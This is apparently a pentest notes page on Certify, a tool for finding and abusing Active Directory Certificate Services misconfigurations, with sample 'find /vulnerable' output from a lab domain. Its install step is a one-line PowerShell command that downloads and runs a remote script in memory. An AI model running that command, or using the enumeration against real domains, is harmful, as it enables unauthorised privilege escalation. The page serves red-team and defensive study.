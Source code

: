 ```yaml
---
title : "Certify"
# pre : ' '
description : "Active Directory certificate abuse."
date : 2022-01-19T21:26:13+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'Active Directory', 'ADCS']
---
```


## Certify

Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS).

[@harmj0y](https://twitter.com/harmj0y) and [@tifkin_](https://twitter.com/tifkin_) are the primary authors of Certify and the the associated AD CS research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).

## Installation

Please compile the `.exe` yourself or use the PowerShell script below. The examples will use the PowerShell implementation.

```plain
iex((iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1).content)
```

## Examples

#### Identify vulnerable PKIs

```plain
PS Z:\> Invoke-Certify -Command 'find /vulnerable'

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=offsec,DC.nl'

[*] Listing info about the Enterprise CA 'offsec-DC01PKI-CA'

    Enterprise CA Name            : offsec-DC01PKI-CA
    DNS Hostname                  : DC01PKI.offsec.nl
    FullName                      : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=offsec-DC01PKI-CA, DC=offsec, DC.nl
    Cert Thumbprint               : 2CFF52459C3F6C9BD541FDDAF3CC6F0EA72671CC
    Cert Serial                   : 1C0000000565446F3BBD81156A000000000005
    Cert Start Date               : 12/20/2021 6:34:12 AM
    Cert End Date                 : 12/20/2026 6:44:12 AM
    Cert Chain                    : CN=DC01PKI-N1-CA -> CN=offsec-DC01PKI-CA,DC=offsec,DC.nl
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated Users S-1-5-11
      Allow  Read, Enroll                               NT AUTHORITY\NETWORK SERVICE  S-1-5-20
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
      Allow  ManageCA, ManageCertificates               offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
    Enrollment Agent Restrictions : None

[!] Vulnerable certificate templates that exist but an Enterprise CA does not publish:

    ConfigMgrWebServerCertificate


[!] Vulnerable Certificates Templates :

    CA Name                         : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Template Name                   : UsersOffsecAD
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required  : 0
    pkiextendedkeyusage             : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Domain Users       S-1-5-21-497837788-612300594-3587273769-513
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
      Object Control Permissions
        Owner                       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
        WriteOwner Principals       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteDacl Principals        : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteProperty Principals    : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519

C3rt1fy completed in 00:00:01.1902168
```

## URL List

* [Github.com - Certify](https://github.com/GhostPack/Certify)
* [Github.com - Certipy](https://github.com/ly4k/Certipy)
